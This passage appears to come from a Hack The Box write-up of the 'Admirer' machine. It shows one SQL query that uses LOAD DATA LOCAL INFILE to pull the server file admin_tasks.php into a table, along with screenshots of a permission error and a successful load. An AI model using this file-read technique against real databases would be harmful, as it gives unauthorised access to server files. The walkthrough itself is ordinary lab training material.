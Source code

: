 ![Unable to open file](/assets/img/htb/machines/linux/easy/admirer/error-permission.png)

Arg! Let's try `admin_tasks.php` since we are in the same directory:

```sql
LOAD DATA LOCAL INFILE 'admin_tasks.php'
INTO TABLE TEMPDB.backup
FIELDS TERMINATED BY "\n"
```

![query success](/assets/img/htb/machines/linux/easy/admirer/query-success.png)

Bu there is nothing interesting:

![admin_tasks.php in SQL table](/assets/img/htb/machines/linux/easy/admirer/arg.png)

